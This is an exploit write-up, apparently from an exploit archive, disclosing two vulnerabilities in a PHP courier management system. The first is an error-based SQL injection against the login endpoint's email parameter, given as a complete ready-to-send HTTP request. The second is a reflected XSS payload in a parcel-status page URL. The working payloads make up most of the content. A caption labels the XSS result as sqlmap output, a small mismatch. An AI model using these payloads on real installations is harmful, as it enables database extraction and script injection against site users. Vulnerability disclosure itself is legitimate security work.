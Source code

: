 ### Exploit Title: Best courier management system - Multiple vulnerabilities
### Date: 2024-02/23
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/16848/best-courier-management-system-project-php.html
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./ajax.php?action=login（SQL injections）
/ajax.php?action=login SQL injection exists for parameter email

### Sample request POC #1

```
POST /ajax.php?action=login HTTP/1.1
Host: localhost:8889
Content-Length: 36
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
sec-ch-ua-platform: "macOS"
Origin: http://localhost:8889
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8889/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=0sk1vejv5ipjkga2afjt5vqi59
Connection: close

email=admin@qq.com' AND GTID_SUBSET(CONCAT(0x7170707a71,(SELECT (ELT(8602=8602,1))),0x71786b6271),8602)-- DXLq&password=123456
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708683277496.jpg "Best courier management system")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708683386418.jpg "Best courier management system")


# 2./manage_parcel_status.php（XSS）
/manage_parcel_status.php XSS exists for parameter id

### Sample request POC #2

```
http://localhost:8889/manage_parcel_status.php?id=1%22%3E%3Cscript%3Ealert(1)%3C/script%3E
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708683733074.jpg "Best courier management system")


